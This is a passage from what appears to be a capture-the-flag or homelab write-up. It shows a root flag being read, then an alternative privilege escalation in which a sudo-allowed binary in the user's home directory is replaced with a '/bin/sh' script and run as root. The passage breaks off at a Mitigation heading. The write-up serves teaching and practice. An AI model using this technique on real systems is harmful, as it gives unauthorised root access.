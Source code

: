 ```bash
$ ls -al
total 12
drwx------    2 root     root          4096 Apr 17 13:43 .
drwxr-xr-x   21 root     root          4096 Apr 17 13:59 ..
lrwxrwxrwx    1 root     root             9 Apr 15 22:58 .ash_history -> /dev/null
-rwx------    1 root     root            39 Apr 17 13:43 root.flag
$ cat root.flag
flag{e3b081b8af1c7079049b029c7cb8bd0d}
$
```
{: .nolineno }

I am root now !!

___

### **Alternative method 🔻**

I as a <b><span style="color:rgb(219, 0, 0)">shinosawa</span></b> have full write to modify this file so lets replace it with another custom made executable file and execute as root like this 🔻

```bash
homelab:~$ whoami
shinosawa
homelab:~$ ls -al deepseek 
-r-xr-xr-x    1 shinosawa shinosawa     18888 Apr 17 13:38 deepseek
homelab:~$ mv deepseek deeps33k
homelab:~$ echo "/bin/sh" > deepseek
homelab:~$ chmod +x deepseek
homelab:~$ sudo /home/shinosawa/deepseek -p
/home/shinosawa # whoami
root
/home/shinosawa # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/home/shinosawa # cd ~
~ # pwd
/root
~ # ls -al
total 12
drwx------    2 root     root          4096 Apr 17 13:43 .
drwxr-xr-x   21 root     root          4096 Apr 17 13:59 ..
lrwxrwxrwx    1 root     root             9 Apr 15 22:58 .ash_history -> /dev/null
-rwx------    1 root     root            39 Apr 17 13:43 root.flag
~ # 
```
{: .nolineno }

I am root now !!

---

## **🔍 Mitigation**
